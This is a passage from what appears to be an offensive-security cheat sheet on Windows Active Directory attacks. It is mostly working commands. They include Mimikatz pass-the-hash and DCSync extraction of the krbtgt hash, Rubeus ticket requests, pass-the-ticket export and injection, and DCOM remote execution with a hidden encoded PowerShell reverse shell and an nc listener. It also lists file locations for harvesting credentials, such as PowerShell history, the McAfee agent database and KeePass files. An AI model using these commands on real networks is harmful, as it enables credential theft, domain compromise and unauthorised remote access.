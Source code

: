 Other way:
- Start a PowerShell session with a logon type 9 (same as runas /netonly) with `Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:<domain> /aes256:<aes256key> /run:powershell.exe"'`
- With Rubeus.exe
  - Without elevation, run the command: `Rubeus.exe asktgt /user:Administrator /rc4:<ntlmhash> /ptt`
  - With elevation, run the command: `Rubeus.exe asktgt /user:Administrator /aes256:<aes256keys> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt`
- To extract credentials without code execution, use DCSync
  - To use the DCSync feature for getting krbtgt hash, use `Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'` or `SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt" "exit"`
  - Note: by default, Domain Admins privileges are required to run DCSync

### Pass the Ticket

1. Run mimikatz. Execute `#privilege::debug`
2. `sekurlsa::tickets /export` export all the TGT/TGS from memory
3. Verify generated tickets with `PS:\> dir *.kirbi`. Search for an administrator ticket in the local directory
4. Inject a ticket from mimikatz with `kerberos::ptt <ticket_name>`
   - Example: `kerberos::ptt [0;193553]-2-0-40e10000-Administrator@krbtgt-CONTROLLER.LOCAL.kirbi`
5. Inspect the injected ticket with `C:\> klist`
6. Access the restricted shared folder.
   - Example `dir \\<IP>\admin$`

### DCOM

1. `$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","<IP>"))` remotely Instantiate the MMC Application object
2. `$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc","7")` execute a command on the remote DCOM object
3. `$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e <BASE64>","7")` reverse shell, run a listener with `nc -lnvp 443`


## Credentials Harvesting

### Cedential Access

Clear-text files
- `C:\Users\USER\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`

Database files
- `cd C:\ProgramData\McAfee\Agent\DB > ma.db > sqlitebrowser ma.db`
- [mcafee-sitelist-pwd-decryption](https://github.com/funoverip/mcafee-sitelist-pwd-decryption/)

Memory
- Clear-text credentials
- Cached Passwords
- AD Tickets

Password managers
- example: `*.kdbx`
